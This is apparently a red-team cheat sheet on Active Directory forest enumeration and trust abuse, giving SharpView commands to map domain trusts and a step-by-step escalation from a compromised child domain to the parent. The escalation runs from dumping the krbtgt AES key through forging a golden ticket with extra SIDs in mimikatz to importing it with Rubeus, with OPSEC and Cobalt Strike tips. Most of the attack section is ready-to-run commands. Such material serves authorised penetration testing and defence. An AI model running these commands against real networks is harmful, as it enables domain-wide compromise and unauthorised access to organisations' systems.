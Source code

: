 # __Forest enumeration and exploitation__
>Author: Pieter Miske
---
### __Expand access within current forest:__
##### _Forest enumeration:_
To determine the domain’s you need to hop to get to your target, enumerate all trusts of the current domain and every trust of the new identified domains\. If your final target is not within the current forest, you also need to start looking for ways to cross the forest security boundary\.
- 1\. Get forest information:
    - List domain trusts within the current forest \(specify target domain to list trusts of that domain\) \([SharpView](https://github.com/tevora-threat/SharpView)\): `Get-DomainTrust (-Domain <target domain>) -API`
    - Get information about a forest and DC names \(specify target forest to list information about that forest\) \(SharpView\): `Get-NetForest (-Forest <forest>)`
- 2\. Map the results on the following trust types, attributes and directions:
    - TrustType:
    	- WINDOWS\_NON\_ACTIVE\_DIRECTORY: a trusted Windows domain that is not running Active Directory\.
    	- WINDOWS\_ACTIVE\_DIRECTORY: a trusted Windows domain that is running Active Directory
    	- MIT: a trusted domain that is running a non\-Windows \(\*nix\), RFC4120\-compliant Kerberos distribution\.
    - TrustAttributes: 
    	- WITHIN\_FOREST: the trusted domain is within the same forest, meaning a parent/child or cross\-link relationship\.
    	- NON\_TRANSITIVE: if DomainA trusts DomainB and DomainB trusts DomainC, then DomainA does not \(automatically\) trust DomainC \(can’t query any AD information from trusts up the chain from the non\-transitive point\)\. 
    	- FOREST\_TRANSITIVE: cross\-forest trust link between the root domains of two forests\. 
    	- TREAT\_AS\_EXTERNAL: SID filtering is disabled and can be exploited
    	- Other options can be found [here](http://www.harmj0y.net/blog/redteaming/a-guide-to-attacking-domain-trusts/): 
    - TrustDirection:
    	- BIDIRECTIONAL: full trust relationship between two domains:
    	- INBOUND: One\-way trust relationship which means that the principals from the Source domain are trusted by the Target Domain\.  
    	- OUTBOUND: One\-way trust relationship which means that the principals from the Target domain are trusted by the Source Domain \(can be an indicator for a Bastion forest\)\. 

##### _Abuse parent/child relationship and create Intra\-Forest trust ticket:_
If you compromise a child domain, you can by definition also compromise the parent domain due to the implicit bidirectional trust relationship\. 
>This method requires you to have DA level access in a child domain\. 
- 1\. List and copy the SIDs of the current domain and the target domain \([SharpView](https://github.com/tevora-threat/SharpView)\): `Get-DomainTrust -API`
- 2\. Dump the aes256 key of the current domain krbtgt account
- 3\. Forge a TGT \(if its not working, use the ‘/target’ option and specify the target domain\) \(for OPSEC run in local mimikatz\): `kerberos::golden /domain:<current FQDN> /sid:<owned domain SID> /sids:<target domain SID>-512 /aes256:<krbtgt key> /user:Administrator /ticket:ticket.kirbi /startoffset:-10 /endin:600 /renewmax:10080`
- 4\. Import the ticket and use it to access resources in the target domain \(for cobalt strike use the ‘make\_token’ \+ ‘kerberos\_ticket\_use’ method\) \([Rubeus](https://github.com/GhostPack/Rubeus)\): `rubues.exe ptt /ticket:C:\<path to>\ticket.kirbi`
